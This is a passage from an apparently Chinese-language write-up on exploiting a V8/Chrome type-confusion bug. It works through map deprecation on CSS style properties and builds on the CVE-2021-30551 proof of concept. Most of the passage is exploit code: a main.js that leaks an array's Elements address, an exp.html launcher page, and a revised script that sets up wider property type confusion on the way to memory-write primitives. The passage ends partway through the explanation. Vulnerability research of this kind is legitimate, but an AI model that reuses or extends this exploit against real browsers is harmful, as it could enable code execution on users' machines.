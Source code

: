 ```javascript
// main.js
import * as cvs from './module/conversion.mjs'

var s1 = document.createElement('p').style;
var v1 = { toString: () => {s1.prop = 1} };
s1.prop = v1;


var s2 = document.createElement('p').style;
var v2 = [1.1, 1.2, 1.3];
v2.toString =  () => {
	s2.prop = 1
	s1.prop = 1.1
};

alert(1);
s2.prop = v2;

alert(`0x${cvs.ftou(s2.prop).toString(16)}`);
```

```html
<!--exp.html-->
<html>
	<body>
		<script type="module" src="./main.js">
		</script>
		PWN:)
	</body>
</html>
```

---
⚠️提示：浏览器原生支持的模块的用法参考 [MDN](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Modules)，也可以用Typescript，Babel 提供的模块机制。

---
如下图所示，读取到的结果和调试器中看到的 v2 的内容一致。

![[Pasted image 20221205000128.png]]

光能泄漏一个数组 Elements 的地址还是不够的，还需要进一步的转化获得一个修改什么数据的能力。先借鉴 CVE-2021-30551 POC 中的思路，优化一下上面的利用代码，引入一个新的属性 deprecate 来专门触发 map 废弃，这样 prop 就可以支持更多的数据类型之间的混淆了，代码修改如下：

```javascript
// main.js
import * as cvs from './module/conversion.mjs'                  

const smi_value = 1;                                            
const double_value = 1.1;                                       

var s1 = document.createElement('p').style;                     
var v1 = {                                                      
	toString: () => {
		// 2. 创建一个包含 double(HeapNumber) 类型的 confuzion 属性的新 map                                             
		s1.confuzion = double_value;                                
	}                                                             
};                                                              

// 1. 创建一个包含 SMI类型的 deprecate 属性的新 map 
s1.deprecate = smi_value;                    
// 3. 创建一个包含 object 类型的 confuzion 属性的新 map
s1.confuzion = v1;                                              

```